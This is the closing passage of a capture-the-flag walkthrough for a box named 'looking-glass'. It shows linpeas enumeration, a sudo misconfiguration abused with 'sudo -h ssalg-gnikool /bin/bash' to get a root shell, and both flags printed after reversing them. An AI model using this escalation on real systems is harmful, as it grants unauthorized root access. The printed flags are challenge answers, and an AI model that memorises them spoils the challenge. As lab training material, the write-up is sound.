 Save it and go into ssh with that:

![](gitbook/cybersecurity/images/Pasted%20image%2020250610233743.png) Let's check valuable stuff for it, we can use `linpeas`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250610233939.png)

As seen, the sudoers file has something on it, we got:

```
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

We can abuse this to get a shell as root by doing:

```
sudo -h ssalg-gnikool /bin/bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250610234029.png)

Nice, we were able to get root, let's get both flags:

```
root@looking-glass:/tmp# cat /home/jabberwock/user.txt
}32a911966cab2d643f5d57d9e0173d56{mht
```

Oh, first flag is reversed, we can do:

```
root@looking-glass:/tmp# cat /home/jabberwock/user.txt | rev
thm{65d3710e9d75d5f346d2bac669119a23}
```

Nice, let's get final flag, this one's reversed too:

```
root@looking-glass:/tmp# cat /root/root.txt | rev
thm{bc2337b6f97d057b01da718ced6ead3f}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250610234200.png)
